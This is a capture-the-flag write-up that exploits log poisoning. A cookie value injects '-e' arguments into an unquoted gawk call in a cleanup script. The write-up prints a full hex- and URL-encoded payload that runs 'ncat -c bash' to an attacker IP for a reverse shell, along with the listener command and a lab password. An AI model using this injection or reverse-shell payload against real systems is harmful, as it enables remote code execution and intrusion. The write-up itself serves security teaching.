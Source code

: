 # Solution

This challenge is an example of log poisoning and should be used as a whitebox/code review exercise. A simple web server use cookies to log user sessions. Every connection is logged in a master log file and create dedicated log file for the session. Every 30 seconds, a cleanup script collects the warnings of each dedicated log file based on the master log file and clear them.

Cookies is a value controlled by the user and is logged without sanitization. This shouldn't be a problem, but the Log file is used in another program. This other program, the cleanup script, looks for `Log file:` and take everything following as the log file. Therefore, a correctly modified cookie can be interpreted by the cleanup script as the wanted file.

## Enumeration

We have initial access using SSH and the provided credential.

```shell
ssh user@<ip> -p <port>
```

We know there is a webserver on the same network which is the target. So we start enumerating.

```shell
ifconfig
```

We can note the current network and try to find the webserver IP.

![alt text](nmap.png)

Now, we can try to access the webpage using a simple proxy.

```shell
ssh user@<ip> -p <port> -D 9050
```

And configure the browser to use this proxy.

![alt text](proxy.png)

![alt text](webpage.png)

## Reverse engineering

The cleanup script has this line, which doesn't have quotes arround $file_path, the potentially controlled variable.

```bash
gawk -f $filter $file_path >>$warning_log_file &
```

Opening this script in VSCode with something like ShellCheck will warn you `Double quote to prevent globbing and word splitting.`. This mean, a string will be split and interpreted as different argument. You can try this:

```bash
t="-n /etc/passwd"
cat $t
```

Reading the documentation of gawk we can see:

```bash
    gawk [ POSIX or GNU style options ] -f program-file [ -- ] file .

[...]
       -e program-text
       --source program-text
              Use program-text as AWK program source code.  This option allows the easy intermixing of library functions (used via the  -f
              and  --include options) with source code entered on the command line.  It is intended primarily for medium to large AWK pro‐
              grams used in shell scripts.  Each argument supplied via -e is treated as if it begins with  an  implicit  @namespace  "awk"
              statement.
```

It seems that GNU Awk is able to execute some kind of script which is pass as argument `-f`, but it can also take a program-text as `-e`. Looking at [gtfobins](https://gtfobins.github.io/), we can find [gawk](https://gtfobins.github.io/gtfobins/gawk/) has the ability to execute shell command.

```bash
gawk 'BEGIN {system("/bin/sh")}'
```

Trying `-e` flag, this should be valid. Note it requires a valid file path at the end:

```bash
file_path='-e {system("/bin/sh")} /etc/passwd'
gawk -f $filter $file_path
```

But this give an error:

```bash
file_path='-e {system("ls -la")} /etc/passwd'
gawk -f $filter $file_path

gawk: fatal: cannot open shared library `a")}' for reading: No such file or directory
```

Since it uses a space, globbing interpret this has two arguments. So we have RCE, but can't use space and do not have any output... Trying to create a reverse shell using [revshells](https://www.revshells.com/), but they all use spaces. Looking at [PayloadsAllTheThings
/Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) we could try a couple of techniques. But remembering we are in a string, we could use hex:

```bash
file_path='-e {system("ls\x20-la")} /etc/passwd'
gawk -f $filter $file_path
```

Ok, we can see in the Dockerfile ncat is installed.

```bash
ncat -c bash <ip> <port>
```

Note, here we use IP since we are in the same network, but we might need to have a publicly available IP through [Duckdns](https://www.duckdns.org/) or even [ngrok](https://ngrok.com/) or use the available docker. We have access to a local machine which we can connect to via ssh with the password : `traps-sizably-jogger-scrimmage2`

```bash
ssh user@<ip>
```

We can encode to Hex using [CyberChef](https://gchq.github.io/CyberChef/).

```bash
\x6e\x63\x61\x74\x20\x2d\x63\x20\x62\x61\x73\x68\x20\x30\x2e\x30\x2e\x30\x2e\x30\x20\x34\x34\x34\x34
```

Cool, we have our final payload:

```bash
Log file:-e {system("\x6e\x63\x61\x74\x20\x2d\x63\x20\x62\x61\x73\x68\x20\x31\x37\x32\x2e\x32\x32\x2e\x30\x2e\x31\x20\x34\x34\x34\x34")} /etc/passwd
```

Which we need to URL encode:

```shell
Log%20file%3A%2De%20%7Bsystem%28%22%5Cx6e%5Cx63%5Cx61%5Cx74%5Cx20%5Cx2d%5Cx63%5Cx20%5Cx62%5Cx61%5Cx73%5Cx68%5Cx20%5Cx31%5Cx37%5Cx32%5Cx2e%5Cx32%5Cx32%5Cx2e%5Cx30%5Cx2e%5Cx31%5Cx20%5Cx34%5Cx34%5Cx34%5Cx34%22%29%7D%20%2Fetc%2Fpasswd
```

Open a listener:

```shell
nc -lvnp <port>
```

Set the cookie to our payload and get the page.
![cookie](cookie.png)

![listener](listener.png)

Succes! We have a reverse shell, we can `ls` and `cat` the flag!
